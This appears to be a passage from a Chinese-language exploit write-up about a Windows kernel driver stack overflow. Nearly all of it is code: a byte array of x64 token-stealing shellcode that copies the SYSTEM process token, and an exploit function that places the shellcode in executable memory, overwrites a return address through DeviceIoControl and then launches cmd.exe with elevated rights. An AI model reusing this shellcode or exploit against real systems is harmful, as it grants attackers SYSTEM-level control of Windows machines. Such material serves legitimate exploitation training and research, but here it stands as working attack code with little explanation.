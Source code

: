 更换为

```bash
BYTE cmd[256] = {
    0x48, 0x31, 0xc0, 0x65, 0x48, 0x8b, 0x80, 0x88, 0x01, 0x00,
    0x00, 0x48, 0x8b, 0x80, 0xb8, 0x00, 0x00, 0x00, 0x49, 0x89,
    0xc1, 0x48, 0x8b, 0x80, 0x48, 0x04, 0x00, 0x00, 0x48, 0x8b,
    0x00, 0x48, 0x8b, 0x50, 0xf8, 0x49, 0x89, 0xc0, 0x48, 0x8b,
    0x00, 0x48, 0x83, 0xfa, 0x04, 0x75, 0xf0, 0x49, 0x8b, 0x50,
    0x70, 0x48, 0x83, 0xe2, 0xf8, 0x49, 0x8b, 0x89, 0xb8, 0x04,
    0x00, 0x00, 0x48, 0x83, 0xe1, 0x07, 0x48, 0x01, 0xca, 0x49,
    0x89, 0x91, 0xb8, 0x04, 0x00, 0x00, 0x65, 0x48, 0x8b, 0x04,
    0x25, 0x88, 0x01, 0x00, 0x00, 0x66, 0x8b, 0x88, 0xe4, 0x01,
    0x00, 0x00, 0x66, 0xff, 0xc1, 0x66, 0x89, 0x88, 0xe4, 0x01,
    0x00, 0x00, 0x48, 0x8b, 0x90, 0x90, 0x00, 0x00, 0x00, 0x48,
    0x8b, 0x8a, 0x68, 0x01, 0x00, 0x00, 0x4c, 0x8b, 0x9a, 0x78,
    0x01, 0x00, 0x00, 0x48, 0x8b, 0xa2, 0x80, 0x01, 0x00, 0x00,
    0x48, 0x8b, 0xaa, 0x58, 0x01, 0x00, 0x00, 0x31, 0xc0, 0x0f,
    0x01, 0xf8, 0x48, 0x0f, 0x07, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff
};
```

EXP

```bash
void StackOverflow(HANDLE hDevice, unsigned int ioctl) {
    char stackspace[0x1000] = { 0 };
    DWORD oldProtect;

    printf("[*] Start Exploit\n");
    LPVOID shellcode_addr = VirtualAlloc(NULL,
        sizeof(cmd),
        MEM_COMMIT | MEM_RESERVE,
        PAGE_EXECUTE_READWRITE);
    memcpy(shellcode_addr, cmd, sizeof(cmd));

    unsigned int size = 0x820;
    RtlFillMemory(stackspace, 0x810, 'A');
    *(unsigned long long*)(stackspace + 0x818) = (unsigned long long)shellcode_addr;

    DWORD info = 0;


    printf("shellcode space %p\n", shellcode_addr);
    printf("[*] Spawning a new cmd.exe process\n");

    system("pause");

    DeviceIoControl(hDevice, ioctl,
        stackspace, size,
        NULL, 0,
        &info, NULL);
    printf("info: %d\n", info);
    system("cmd.exe");
```